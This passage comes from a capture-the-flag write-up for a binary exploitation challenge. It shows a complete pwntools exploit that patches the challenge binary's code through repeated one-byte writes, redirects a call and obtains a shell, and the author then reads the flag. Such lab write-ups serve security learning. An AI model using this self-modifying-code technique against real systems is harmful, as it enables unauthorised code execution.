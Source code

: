 ```python
# Set loop to jump to our evil call
jmp_arg = 0
write_byte(init_offset, jmp_arg, looping=True)
p.interactive()
```

Here is the final python exploit:
```python
from pwn import *
import time

p = process('./prob')
#p = remote('host1.dreamhack.games', 19396)

def write_byte(idx, value, looping=False):
    if not looping: p.recvuntil(b'1 byte (idx): ')
    p.sendline(str(idx).encode())
    p.recvuntil(b'to (val): ')
    #input(f'{p.pid}')
    p.sendline(str(value).encode())

# Setup looping for multiple writes
init_offset = 0x324
relative_jmp_arg = 0x8e
write_byte(init_offset, relative_jmp_arg)
time.sleep(0.5)

# Write new call address to the code
new_call = p32(0xfffffebf)
base_addr = 0x326
i = 0
for b in new_call:
    write_byte(base_addr+i, b, looping=True)
    i += 1
    time.sleep(0.1)

# Set loop to jump to our evil call
jmp_arg = 0
write_byte(init_offset, jmp_arg, looping=True)

p.interactive()
```

I ran this and to my surprise, first try I popped the shell locally. Running it on the remote server it worked just the same. From there its as easy as `cat flag`.
